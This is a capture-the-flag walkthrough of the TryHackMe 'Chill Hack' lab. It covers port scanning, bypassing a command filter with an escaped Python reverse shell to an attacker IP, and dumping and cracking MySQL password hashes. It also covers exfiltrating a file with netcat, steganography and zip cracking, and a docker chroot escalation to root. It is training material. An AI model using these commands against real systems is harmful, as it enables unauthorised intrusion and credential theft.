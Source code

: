 ```yaml
---
title: TryHackMe - Chill Hack
layout: post
categories:
- TryHackMe
tag: command-injection, sql-injection, real-world
image: "/assets/img/chill-hack.png"
image_alt: chill-hack
---
```


Easy level CTF.  Capture the flags and have fun!

<br>

## 1. User Flag

Let's do a `nmap` scan.

```
$ nmap -sSCV 10.10.249.219
```

![nmap](/assets/img/tryhackme/chill-hack/nmap.png)

Three ports are open. These are `21/tcp FTP, 22/tcp SSH, 80/tcp HTTP`

![ftp](/assets/img/tryhackme/chill-hack/ftp.png)

It seems we can log in FTP server anonymously.
And there is a file called `note.txt` on the server.

Let's take a look at what's written inside `note.txt`.

![note](/assets/img/tryhackme/chill-hack/note.png)

*`Anurodh told me that there is some filtering on strings being put in the command -- Apaar`*

Let's visit the website running on `80/tcp` port.

![home](/assets/img/tryhackme/chill-hack/home.png)

I've been browsing the site but nothing remarkable.

Let's do a `gobuster` scan.

```
$ gobuster dir -u http://10.10.249.219  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html,txt
```

![gobuster](/assets/img/tryhackme/chill-hack/gobuster.png)

We found the *`/secret`* directory. 

Let's look at this page.

We found a page where we can run commands.

I try to run a few commands but something like this comes up.

![alert](/assets/img/tryhackme/chill-hack/alert.png)

I'm trying to do a reverse shell, but none of the codes I tried worked. Except this:

```
$ p\ython3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.86.168",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

```

I ran the code like `p\ython` instead of python. We are inside now.

![in](/assets/img/tryhackme/chill-hack/in.png)

I found an interesting file in `/var/www`.

![ints](/assets/img/tryhackme/chill-hack/ints.png)

Let's look at the `/files` directory.

![files](/assets/img/tryhackme/chill-hack/files.png)

What's in these files? Let's look.

**`account.php`**

![account](/assets/img/tryhackme/chill-hack/account.png)

**`hacker.php`**

![hacker](/assets/img/tryhackme/chill-hack/hacker.png)

**`index.php`**

![index](/assets/img/tryhackme/chill-hack/index.png)

We found important things in the index.php file. 

`Mysql - Database: webportal`, `root:*************`

Let's see if we can log in to `MySQL`.

```
$ mysql -u root -p 
$ show databases;
$ use webportal
$ show tables;
$ select * from users;
```

![mysql](/assets/img/tryhackme/chill-hack/mysql.png)

We find the encrypted version of the passwords of Anurodh and Apaar.

Let's look at the type of passwords.

![id](/assets/img/tryhackme/chill-hack/id.png)

It seems passwords are encoded using md5. Let's crack these passwords.

**`Anurodh`**;

![crack1](/assets/img/tryhackme/chill-hack/crack1.png)

**`Apaar`**;

![crack2](/assets/img/tryhackme/chill-hack/crack2.png)

I try these passwords for ssh login. But it's not working.

So let's back the `hacker.php`. Firstly, we must download the `hacker-with-laptop_23-2147985341.jpg` file.

In my machine;

![mine](/assets/img/tryhackme/chill-hack/mine.png)

```
$ nc -nlvp 4444 > hacker-with-laptop_23-2147985341.jpg
```

In target machine;

![target](/assets/img/tryhackme/chill-hack/target.png)

```
$ nc my-ip 4444 -w 4 < hacker-with-laptop_23-2147985341.jpg
```

We get the file. Now, need to use `steghide`.

```
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg
$ zip2john backup.zip > hash.hash
$ john --wordlist=usr/share/wordlists/rockyou.txt hash.hash
```

![steghide](/assets/img/tryhackme/chill-hack/steghide.png)

Now that we've found the password, let's see what's inside the `backup.zip`.

![zip](/assets/img/tryhackme/chill-hack/zip.png)

We found Anurodh's password in `source_code.php`.

![encode](/assets/img/tryhackme/chill-hack/encode.png)

Let's decode.

![decode](/assets/img/tryhackme/chill-hack/decode.png)

Now, we can access Anurodh's ssh.

![ssh](/assets/img/tryhackme/chill-hack/ssh.png)

I try the `sudo -l` command and it works.

![sudol](/assets/img/tryhackme/chill-hack/sudol.png)

We have a bash file for Apaar that we can run without requiring a password.

Let's see what's in it.

![writein](/assets/img/tryhackme/chill-hack/writein.png)

Let's run the file and try adding `/bin/bash` to it.

![helpline](/assets/img/tryhackme/chill-hack/helpline.png)

Yeah, it's work. Now we can access Apaar.  

Let's get the user flag.

![user-flag](/assets/img/tryhackme/chill-hack/user-flag.png)

<br>

### 2. Root Flag

Now, we must return back to Anurodh.  

I found this and it's interesting.

![docker](/assets/img/tryhackme/chill-hack/docker.png)

I'm looking at [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) to see if I can find anything about Docker. 

Let's try this code.

![gtf](/assets/img/tryhackme/chill-hack/gtf.png)

```
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

And we are root. Yes!

![rootin](/assets/img/tryhackme/chill-hack/rootin.png)

Let's get the root flag.

![root-flag](/assets/img/tryhackme/chill-hack/root-flag.png)

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care :wave:

<br>
